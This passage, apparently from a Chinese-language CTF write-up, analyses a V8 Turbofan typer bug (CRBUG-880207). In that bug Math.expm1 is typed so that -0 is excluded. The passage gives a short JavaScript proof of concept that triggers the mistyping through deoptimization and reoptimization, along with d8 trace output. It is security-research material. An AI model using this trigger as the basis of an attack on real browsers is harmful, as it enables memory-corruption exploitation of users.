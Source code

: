 可以看到`Float64Expm1`节点的`Type`是`Number`，这个类型是包含`-0`的，这就有点难办了

观察题目给的patch可以看到，其实只是补了`typer.cc`，而没有`operation-typer.cc`，所以这个漏洞只能在builtin函数的调用过程中触发（注意看上面提到的谷歌打的三个补丁，第一个补丁补了`operation-typer.cc`，第二个和第三个补丁补了`typer.cc`，这两个文件对应着两个触发路径，题目的patch把`typer.cc`这个文件的漏洞给引入了）

上面那篇文章的作者提到了当我们触发一次优化之后（这一步优化可以不需要），传入一个非Number类型的参数，就可以触发`deoptimization`，，此时转交给Ignition解释器，然后再主动触发一次优化，那么Turbofan的反馈数据里就会有`Number`和`非Number`两种信息，在优化的时候就会使用能够处理多种类型数据的builtin函数，也就能触发一个builtin函数调用了

所以Poc如下
```JavaScript
function foo(x) {
    return Object.is(Math.expm1(x), -0);
}

console.log(foo(0));

for(var i = 0; i < 100000; i++)
    foo("0");

console.log(foo(-0));
```

同样的，我们来看跟踪过程
```
➜  x64.debug git:(CRBUG-880207) ./d8 --allow-natives-syntax --trace-turbo Poc.js
Concurrent recompilation has been disabled for tracing.
---------------------------------------------------
Begin compiling method foo using Turbofan
---------------------------------------------------
Finished compiling method foo using Turbofan
---------------------------------------------------
Begin compiling method foo using Turbofan
---------------------------------------------------
Finished compiling method foo using Turbofan
---------------------------------------------------
Begin compiling method  using Turbofan
---------------------------------------------------
Finished compiling method  using Turbofan
false
```

在`Typer`阶段，注意看红色框框里的内容，我们可以看到`Math.expm1`的`Type`为`PlainNumber | NaN`，这个`Type`不包含`-0`，右边的节点类型是`MinusZero`也就是`-0`，这两个数据传入`SameValue`节点进行比较，这明显是恒不相等的
